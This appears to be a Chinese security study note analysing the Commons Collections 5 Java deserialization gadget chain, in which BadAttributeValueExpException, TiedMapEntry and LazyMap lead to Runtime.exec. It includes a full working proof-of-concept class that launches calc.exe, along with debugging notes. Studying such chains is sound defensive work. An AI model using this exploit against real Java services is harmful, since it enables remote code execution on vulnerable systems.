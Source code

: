 ## 简介
CC5 利用的还是CC1的链路，使用LazyMap，只要调用了LazyMap.get()，就可以触发ChainedTransformer，链式调用，那么在CC5中，在哪儿会调用这个get方法呢？
在[CC1 LazyMap 利用链](https://www.yuque.com/da-labs/secnotes/aobl1w)中，我们知道**动态代理对象调用任何一个方法时会调用handler中的invoke方法**，然而我们知道`sun.reflect.annotation.AnnotationInvocationHandler`，会发现实际上这个类就是一个InvocationHandlerAnnotationInvocationHandler类，如果将这个恶意对象用Proxy进行代理，那么在readObject的时候，只要调用任意方法，就会进入到AnnotationInvocationHandler#invoke方法中。
在CC5中这里引入了新的两个类，分别是**TiedMapEntry，BadAttributeValueExpException**
### TiedMapEntry
可以看到map，和key都是可控的，在调用getValue的时候，就直接调用get方法，实现LazyMap#get()

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_21_YU4Byvbu.png)

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_21_KHiUvyfT.png)

那么要在哪里调用这个getvalue函数呢，在`TiedMapEntry`里，我们可以看到该类为其实现了一个`toString()`方法
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_21_x8EC6yVt.png)

那么找到能调用`TiedMapEntry#toString()`方法就显得至关重要，接下来`BadAttributeValueExpException`类就会带来一片光明

### BadAttributeValueExpException
`BadAttributeValueExpexception` 在readObject的时候，如果能读这个valObj为`TiedMapEntry`的实例，那么是不是就是一条完美的链路？

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_22_Zc2w9KjJ.png)

在此处，我们可以看到`BadAttributeValueExpexception` 的构造函数只有一个值val，但是类型是Object，那么我们可以按如下构造，当其反序列化的时候，调用readObject()函数的时候，反序列化得到的valObj就是对应的`TiedMapEntry`实例

```java
// 创建一个实例
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
// 反射赋值
Field valfield = val.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(val,"TiedMapEntry实例对象");
```
## POC
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;


/*
@params
Test Env
jdk8u181
Commons Collection3.1
 */
public class TestCC5 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap,transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "1");
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val,entry);
        try{
            FileOutputStream fileOutputStream = new FileOutputStream("cc5.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(val);

            FileInputStream fileInputStream = new FileInputStream("cc5.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
### 0x1
第一部分为[CC1 LazyMap 利用链](https://www.yuque.com/da-labs/secnotes/aobl1w)前部分，也可以参考[CC1 分析](https://www.yuque.com/da-labs/secnotes/eru5qp)，这里只要调用了`LazyMap#get`，就会触发`ChainedTransformer.transform()`,进而对transformers链式调用
```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
    };
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap,transformerChain);
```
### 0x2
在简介中可以看到，`TiedMapEntry`实例化的`entry`需要赋值给`BadAttributeValueExpException@val`,当反序列化的时候，取到对象，则会调用`TiedMapEntry#toString`方法，进而调用`TiedMapEntry#get`方法，其中Map可控，就是反序列化得来的恶意的`TiedMapEntry`实例`lazymap`
```java
TiedMapEntry entry = new TiedMapEntry(lazyMap, "1");
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valfield = val.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(val,entry);
```
对应的调用链为
```
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_22_AOUvgQqk.png)

## 调试
调试过程和LazyMap是一样的，我们在`LazyMap#get`处`factory.transform(key)`处打下断点来分析
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_22_WcmBpluF.png)

可以看到利用链路为`BadAttributeValueExpException.readObject()`-> `TiedMapEntry.toString()`-> ` LazyMap.get()`->`ChainedTransformer.transform()`

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_23_XfMSdLRK.png)

这里就是常规链式调用了

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_23_9mfpr51S.png)

> [!TIP]
>
> 注：在调试过程中，如果在`LazyMap#get`前的堆栈打上断点，就无法进入LazyMap.get()的if语句

在调试过程中，如果在`LazyMap.get()`之前的堆栈中打下断点，比如`BadAttributeValueExpException.readObject()`、`TiedMapEntry.toString()`、`TiedMapEntry.getValue()`处打上断点，是无法进入 `LazyMap.get()`if 判断语句
在这里可以看到，我圈起来的部分，这里的意思就是已经执行了，因为发生调用了，只不过debug无法进入

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_24_dcBmzp9l.png)

到这里我们直接看`LazyMap.get()`方法，这里断点一定要打在if处，不然是不能进入断点，可以看到，在if处，得到了map参数已经不是空，而是在序列化的时候已经赋的初值。可以通过比较没有在`LazyMap.get()`前的堆栈下断点的区别

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_24_rQw9ecjh.png)

图1 `LazyMap.get()`堆栈前下断点
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_25_EJBxRNAZ.png)

图2 `LazyMap.get()`堆栈前无断点，这就是为什么我在调试部分我没有在其他函数处打断点，而是直接在`LazyMap#get()`处打断点。




